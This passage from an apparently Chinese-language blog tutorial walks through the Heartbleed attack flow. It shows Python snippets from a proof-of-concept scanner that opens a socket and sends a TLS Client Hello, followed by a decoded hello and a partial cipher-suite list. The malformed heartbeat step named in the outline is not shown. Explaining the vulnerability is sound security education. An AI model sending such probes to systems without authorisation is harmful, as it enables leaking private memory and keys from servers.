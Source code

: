 ![结构](https://raw.githubusercontent.com/chyun/Blog/gh-pages/images/20140611_TLS.jpg)

##3.攻击流程

漏洞的攻击思路:

1. 建立socket连接
2. 发送TLS/SSL Client Hello请求
3. 发送畸形heartbleed数据
4. 检测漏洞存在

###建立socket连接

```

    def ssltest(target, port):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))

```

其中target为目标IP地址，port为目标端口，默认情况下，HTTPS使用443端口。

###发送握手请求

tcp socket 建立后, 发送SSL/TLS Client Hello请求,

```
s.send(h2bin(hello))

```

Client Hello请求内容如下所示:

```

    -------------------------[Client Hello]--------------------------
    Secure Sockets Layer
    TLSv1.1 Record Layer: Handshake Protocol: Client Hello
        Content Type: Handshake (22)
        Version: TLS 1.1 (0x0302)
        Length: 220
        Handshake Protocol: Client Hello
            Handshake Type: Client Hello (1)
            Length: 216
            Version: TLS 1.1 (0x0302)
            Random
            Session ID Length: 0
            Cipher Suites Length: 102
            Cipher Suites (51 suites)
                Cipher Suite: TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA (0xc014)
                Cipher Suite: TLS_ECDHE_ECDSA_WITH_AES_256_CBC_SHA (0xc00a)
                Cipher Suite: TLS_SRP_SHA_DSS_WITH_AES_256_CBC_SHA (0xc022)
                Cipher Suite: TLS_SRP_SHA_RSA_WITH_AES_256_CBC_SHA (0xc021)
                Cipher Suite: TLS_DHE_RSA_WITH_AES_256_CBC_SHA (0x0039)
                Cipher Suite: TLS_DHE_DSS_WITH_AES_256_CBC_SHA (0x0038)
                Cipher Suite: TLS_DHE_RSA_WITH_CAMELLIA_256_CBC_SHA (0x0088)
                Cipher Suite: TLS_DHE_DSS_WITH_CAMELLIA_256_CBC_SHA (0x0087)
                Cipher Suite: TLS_ECDH_RSA_WITH_AES_256_CBC_SHA (0xc00f)
                Cipher Suite: TLS_ECDH_ECDSA_WITH_AES_256_CBC_SHA (0xc005)
                Cipher Suite: TLS_RSA_WITH_AES_256_CBC_SHA (0x0035)
                Cipher Suite: TLS_RSA_WITH_CAMELLIA_256_CBC_SHA (0x0084)
                Cipher Suite: TLS_ECDHE_RSA_WITH_3DES_EDE_CBC_SHA (0xc012)
                Cipher Suite: TLS_ECDHE_ECDSA_WITH_3DES_EDE_CBC_SHA (0xc008)
                Cipher Suite: TLS_SRP_SHA_DSS_WITH_3DES_EDE_CBC_SHA (0xc01c)
                Cipher Suite: TLS_SRP_SHA_RSA_WITH_3DES_EDE_CBC_SHA (0xc01b)
                Cipher Suite: TLS_DHE_RSA_WITH_3DES_EDE_CBC_SHA (0x0016)
                Cipher Suite: TLS_DHE_DSS_WITH_3DES_EDE_CBC_SHA (0x0013)
                Cipher Suite: TLS_ECDH_RSA_WITH_3DES_EDE_CBC_SHA (0xc00d)
```

[id]: https://github.com/chyun/Blog/blob/gh-pages/images/20140611_TLS.jpg